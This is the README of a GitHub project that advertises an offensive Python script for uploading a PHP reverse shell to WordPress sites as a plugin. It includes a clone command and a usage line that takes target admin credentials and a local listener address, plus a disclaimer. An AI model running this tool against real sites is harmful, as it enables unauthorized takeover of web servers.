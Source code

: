 
<div align="center">

  <img src="https://github.com/Jsmoreira02/Pwn_wordpress/assets/103542430/6392fe40-bfff-4784-acfd-645ba2155574" height=130>
  
  <img src="https://img.shields.io/badge/Language%20-Python3-blue.svg" style="max-width: 100%;">
  <img src="https://img.shields.io/badge/Tool%20-Shell upload | reverse shell-brown.svg" style="max-width: 100%;">
  <img src="https://img.shields.io/badge/Target OS%20-Linux-yellow.svg" style="max-width: 100%;">
  <img src="https://img.shields.io/badge/Hacking tool%20-teste?style=flat-square" style="max-width: 100%;">  
  <img src="https://img.shields.io/badge/Type%20-Script-red.svg" style="max-width: 100%;">

</div>

# Evil Wordpress Plugin (Malicious)

Malicious, remotely performs an upload of a PHP reverse shell in the form of a plugin on a WordPress site. The exploit is only successful with user credentials, so make sure you know the target username and password and check if the target user has Administrator permissions.

Install by running:

```bash
  git clone https://github.com/Jsmoreira02/Pwn_wordpress.git
```
    
## Attacking the Target Website:

![ezgif com-video-to-gif(1)](https://github.com/Jsmoreira02/Pwn_Wordpress/assets/103542430/532470ab-161f-487d-a59b-f3d0d7366c25)


- **The speed depends on your connection, check the stability of your connection in case there is a slowdown in execution**


```bash 
python3 Malicious.py -t http://<IP or domain_name> -u <Target Username> -p <Target Password> -L <LOCAL IP> -P <LOCAL PORT>

```

### In case of complications or disconnection issues, you can just manually trigger the connection at the URL link. The script will pass it to you. ###

## 

- ***Good hacking :)***

# Warning:    
> I am not responsible for any illegal use or damage caused by this tool. It was written for fun, not evil and is intended to raise awareness about cybersecurity


